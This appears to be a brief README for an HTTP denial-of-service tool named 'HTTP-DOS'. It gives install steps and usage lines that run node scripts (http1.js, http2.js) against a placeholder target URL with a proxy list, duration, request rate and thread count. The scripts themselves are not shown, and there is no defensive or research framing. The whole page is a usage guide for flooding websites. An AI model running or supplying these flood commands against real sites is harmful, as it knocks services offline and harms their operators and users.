 #HTTP-DOS
---------------------------------------------------------------------------
sh install.sh
---------------------------------------------------------------------------
npm i randomstring
---------------------------------------------------------------------------
node jsfile [METHOD] [TARGET] [PROXIES] [DURATION] [RPC] [THREADS]
---------------------------------------------------------------------------
node http1.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
node http2.js GET "https://target.com" http.txt 120 64 1
---------------------------------------------------------------------------
